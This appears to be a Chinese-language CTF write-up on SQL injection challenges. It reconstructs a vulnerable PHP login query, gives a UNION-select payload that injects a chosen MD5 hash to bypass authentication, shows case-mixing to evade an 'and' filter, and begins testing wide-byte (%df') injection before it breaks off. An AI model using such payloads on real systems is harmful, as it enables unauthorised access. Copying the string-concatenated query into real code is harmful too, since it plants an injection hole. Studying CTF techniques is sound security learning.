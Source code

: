 ![avatar](https://k1ng0fic3.github.io/images/sql8.png)

猜测分别为ID，user，和passwd的功能。

题目没有给出源码，盲猜大概逻辑如下：

```php
<?
$name = $_POST['name'];
$passwd = md5($_POST['pw']);

$sql = "select * from user where username = '$name'";
$query = mysql_query($sql);

if (!strcasecmp($passwd, $query[passwd])) {
	echo $flag;
} else {
	echo("Wrong Pass");
}
 ```

将查询出来的passwd和输入的密码的md5值比较，相等则登录成功不相等则返回wrong pass

解题思路是：既然name参数可注，我们可以构造sql语句使其查询为假，然后联合查询出一个比如`e5ff986d9dc5feb884fad249a4dee66d`(binghuang的md5)，然后密码输入`binghuang`，就会查询成功。

但是binghuang的md5肯定不在数据库里，该如何select出来？
很简单，联合查询时，当查询的数据不存在的时候，就会构造一个虚拟的数据来。
测试过程：

```sql
create database test;   #创建一个数据库
use test                #使用test数据库
create table user( id int, username varchar(20), password varchar(20) );  #创建表
select * from user;          #从表中查询所有,发现什么都没有
select * from user where username = '0' and 1=2 union select 0,'admin','123456';  #发现从表中居然返回了数据,因此可绕过
 ```

关于过滤，and可以用大小写绕过，使查询错误时用不等于代替等于即可。
payload：
>name=admin' And 1>2 union select '1','admin','e5ff986d9dc5feb884fad249a4dee66d&pw=binghuang

![avatar](https://k1ng0fic3.github.io/images/sql9.png)

#### 0x01：Babysqli v2.0

一开始发现输入admin和任何密码都会登录成功但是明显没有flag，说明登录成功的不是目标位置。

![avatar](https://k1ng0fic3.github.io/images/sql10.png)

You can really dance~

稍微联想一下就知道了，中文网站 → UTF8 → 宽字节注入，测试%df'发现报错，判断成功：

![avatar](https://k1ng0fic3.github.io/images/sql11.png)
